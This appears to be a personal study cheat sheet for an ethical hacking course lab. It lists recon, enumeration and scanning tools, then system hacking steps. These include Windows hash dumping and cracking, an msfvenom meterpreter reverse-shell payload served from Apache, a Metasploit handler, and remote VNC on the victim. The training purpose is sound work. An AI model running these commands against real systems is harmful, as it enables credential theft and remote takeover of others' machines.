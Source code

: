 ## Footprinting and Recon
1) Tools Used
	1) Ping
	2) Firebug = wappylyzer but  mode detailed
	3) WinHTTrack = mirror a website , download its css , images html , js media content etc .
	4) Path anaylyzer pro = It basically trace the path of the IP from host to destination add target port and set trace to timed trace
	5) Metasploit
	    1)  nmap = here is used to scan the subnet
	    2) nmap -Pn -sS -sN -A -oX Test 10.10.10.0/24
	    3) type db_import Test
	    4) type hosts
	    5) scan using smb/version/scanner

## Enumeration

 Tools Used
 1) On Windows and Kali
	1) gni_setup.exe = scan the entire network from 10.10.10.1 to 10.10.10.25
	2) ipscan25.exe = same as gni_setup.exe `10.10.10.1-25`
	3) Netbios Enumerator = enumerate everything like registry shares
	4) nmap GUI = nmap -O IP
	5) nbstat -A IP list all the shares
	6) AD_explorer.exe which users has admin privs etc
	7) enum4linux -u username -p pass  -P IP
	8) enum4linux -u username -p pass  -S  IP this will list all the shares
2) In Metasploit
    1) **nmap -sP 10.10.10.0/24** this will scan all the devices present on the given network
    2) nmap -sS IP stealthy scan
    3) nmap -sU  -p161  --script=snmp-brute IP
    4) msfconsole -> use auxilliary/scanner/snmp/snmp_login after getting something
    5) use auxilliary/scanner/snmp/snmp_enum
## Vulnerability Analysis
1) Tools Used
	1) Nessus -go to policies -> create a new policy -> advances scan -> In discovery -> host discovery -> turn of ping the remote hosts -> set max number of concurrent TCP scan per host and scan  as   **unlimited**  -> credential add on scans page -> create a new scan ->
	2) Nikto

## System Hacking

Tools Used
1) **pwdump7.exe** this will show all the password hashes and password
	1) `pwdump7.exe > C:\hashes.txt`
2) Download ophcracl.exe load the hashes and choose vista free and complete the hashcracking
3) Tools to create for rainbow tables
    1) winrtgen
		    1) click add table
		    2) for hash select NTLM
		    3) Min length as 4 Max  length as 6 chain count as 400000
		    4) charset lower alpha
4) command for payload   `msfvenom -p windows/meterpreter/reverse_tcp  --platform windows -a x86 -f exe LHOST=kali_IP LPORT=listening_port -o /root/Desktop/Test.exe`
5)  create a folder ` mkdir /var/www/html/share`  and then `chmod -R 755 /var/www/html/share` 
6) change the ownership of the folder to www-data by `chown -R www-data:www-data /var/html/share`
7) `cp /root/Desktop/Test.exe  /var/www/html/share`
8) service apache2 start
9) msfconsole , use exploit/multi/handler,  set payload windows/meterpreter/reverse_tcp  , set lport to 4444 , run
10) Go to victim download and run and done
11) in meterpreter shell type  `run vnc`  